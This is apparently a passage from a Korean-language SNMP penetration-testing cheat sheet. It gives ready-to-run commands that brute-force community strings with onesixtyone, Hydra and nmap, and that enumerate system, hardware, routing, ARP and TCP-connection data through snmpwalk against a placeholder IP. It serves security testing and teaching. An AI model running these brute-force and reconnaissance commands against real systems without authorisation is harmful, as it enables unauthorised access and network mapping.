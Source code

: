 ```bash
# onesixtyone을 이용한 빠른 스캔
onesixtyone {IP}
onesixtyone -c /usr/share/wordlists/metasploit/snmp_default_pass.txt {IP}

# 커스텀 커뮤니티 리스트 생성
echo -e "public\nprivate\ncisco\nmanager\nadmin\nroot\ndefault\nguest\nuser\npassword\nsecret\nmonitor\nreadonly\nreadwrite" > community.txt
onesixtyone -c community.txt {IP}

# Hydra를 이용한 브루트포스
hydra -P community.txt {IP} snmp

# nmap NSE 스크립트
nmap --script snmp-brute -sU -p 161 {IP}
```

### 🖥️ 시스템 정보 수집 (OID별)

```bash
# 기본 시스템 정보
snmpget -c public -v1 {IP} 1.3.6.1.2.1.1.1.0    # 시스템 설명
snmpget -c public -v1 {IP} 1.3.6.1.2.1.1.2.0    # 시스템 OID
snmpget -c public -v1 {IP} 1.3.6.1.2.1.1.3.0    # 시스템 가동 시간
snmpget -c public -v1 {IP} 1.3.6.1.2.1.1.4.0    # 시스템 연락처
snmpget -c public -v1 {IP} 1.3.6.1.2.1.1.5.0    # 시스템 이름 (호스트명)
snmpget -c public -v1 {IP} 1.3.6.1.2.1.1.6.0    # 시스템 위치

# 전체 시스템 정보 트리
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.1

# 하드웨어 정보
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.25.3.2.1.3    # 저장 장치
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.25.3.3.1.2    # 프로세서 정보
```

### 🌐 네트워크 정보 수집

```bash
# 네트워크 인터페이스 정보
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.2.2.1.1     # 인터페이스 인덱스
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.2.2.1.2     # 인터페이스 설명
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.2.2.1.6     # MAC 주소
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.20.1.1    # IP 주소

# 라우팅 테이블
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.21.1.1    # 목적지 네트워크
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.21.1.7    # 다음 홉
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.21.1.2    # 라우팅 유형

# ARP 테이블
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.22.1.2    # IP 주소
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.22.1.3    # MAC 주소

# TCP 연결 정보
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.6.13.1.1    # 로컬 주소
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.6.13.1.3    # 원격 주소
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.6.13.1.5    # 연결 상태
```

